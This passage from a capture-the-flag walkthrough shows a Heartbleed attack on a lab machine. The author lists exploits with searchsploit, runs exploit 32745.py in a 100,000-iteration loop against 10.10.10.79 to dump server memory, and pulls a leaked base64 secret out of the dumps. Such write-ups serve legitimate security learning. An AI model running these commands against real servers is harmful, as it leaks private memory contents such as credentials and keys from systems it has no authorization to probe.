 and from the hype_key, I can decode them

But it seems like a rabbit hole, from the image and the version of ssh, I guess there would a `heartbleed` vulnerablilty,
```
root@kali# searchsploit heartbleed
-------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                              |  Path
                                                                                                                                            | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)                                         | exploits/multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                                                         | exploits/multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                                                          | exploits/multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                                                            | exploits/multiple/remote/32745.py
-------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result


searchsploit -m exploits/multiple/remote/32745.py
```

The script runs and grabs memory from the target server (it’s useful to remove lines of 0):
`python2 32745.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"`

I ran it a ton of times to collect a bunch of data:
```
for i in $(seq 1 100000); do python2 32745.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > data_dump/data_dump$i; done
```

The use fdupes to remove duplicates:
```
apt install fdupes
fdupes -rf . | grep -v '^$' > files
xargs -a files rm -v
```

In this data, there were a few interesting bits:
```
The existence of /encode.php and /decode.php
decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
that decodes to heartbleedbelievethehype
something that looked like an md5, but didn’t crack easily
```
